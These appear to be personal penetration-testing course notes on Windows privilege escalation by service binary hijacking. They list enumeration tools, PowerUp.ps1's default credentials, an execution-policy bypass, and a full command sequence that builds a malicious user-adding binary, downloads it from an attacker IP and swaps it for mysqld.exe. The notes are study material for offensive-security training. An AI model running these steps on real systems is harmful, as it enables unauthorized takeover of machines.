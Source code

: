 
##### Automated Enumeration 
- Tools
	- winPEAS
	- JAWS
	- Seatbelt
	- lolBAS
	- powerup.ps1


## 16.2 Leveraging Windows Services

##### Service Binary Hijacking
- If service binaries exist in unprotected place on disk, can replace the binary and restart the service 
- When using network logons such as WinRM or a bind shell, querying services will get permission denied, use RDP
- Use replaced binary to create a new user on the machine, then login, use Runas, or msfvenom
- Powerup.ps1 can automate the process but can throw fake permission errors, if so replace binary manually
	- location `/usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1` 
	- default automated creds are john:Password123!
	- bypass execution policy with `powershell -ep bypass`

Steps:
1. Identify potentially vulnerable service paths
	- Need to be outside of system32
2. Verify write access to insecure permissions
3. Create malicious binary
	- Ex creates new user
	- Need to cross complile Unix to x64 Windows
	- Specify outfile as .exe
4. Transfer to target
5. Move original binary and replace with malicious 
6. Restart service or target
	- if stopping target, verify service auto-starts

1. Use Powerup.ps1
	- replace binary manually if needed


```
## Manual ##
1.
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

2.
icacls "C:\xampp\mysql\bin\mysqld.exe"

3.
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe

4. 
python3 -m http.server
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe

5.
move C:\xampp\mysql\bin\mysqld.exe .\mysqld.exe
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

6.
net stop mysql

Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```